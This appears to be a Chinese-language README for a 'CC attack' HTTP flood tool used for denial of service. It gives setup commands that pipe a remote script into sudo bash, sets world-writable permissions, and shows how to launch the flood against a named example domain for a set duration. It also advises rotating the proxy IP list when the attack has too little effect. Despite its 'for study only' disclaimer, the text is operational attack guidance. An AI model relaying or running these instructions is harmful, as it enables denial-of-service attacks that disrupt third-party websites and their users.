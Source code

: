# 本程序为CC攻击程序，仅供用于学习，请勿用于违法违规用途

**作者用的CentOS开发的，不清楚Ubuntu和Debian是否能正常使用**

**1.安装必要运行环境**

***Debian\Ubuntu***

```bash
apt install sudo bash wget curl -y && curl --silent --location https://rpm.nodesource.com/setup_10.x | sudo bash - && apt install nodejs -y
```

***CentOS***
```bash
yum install sudo bash wget curl -y && curl --silent --location https://rpm.nodesource.com/setup_10.x | sudo bash - && yum install nodejs -y
```

**2.给程序的三个文件777权限**
```bash
chmod 777 cc && chmod 777 cc.txt && chmod 777 cc-mod.js
```

**3.执行程序**
```bash
./cc 域名 时长
```

例如`./cc http://zxbke.cn 60`为cc http://zxbke.cn 60秒，如网址采用了`https`可将`http`请求头替换为`https`请求头

**程序作者的题外话**

代理ip地址默认在cc.txt中，脚本默认调用cc.txt，需要修改请直接修改cc.txt中的内容

如果攻击效果不明显，请更换代理ip（即cc.txt）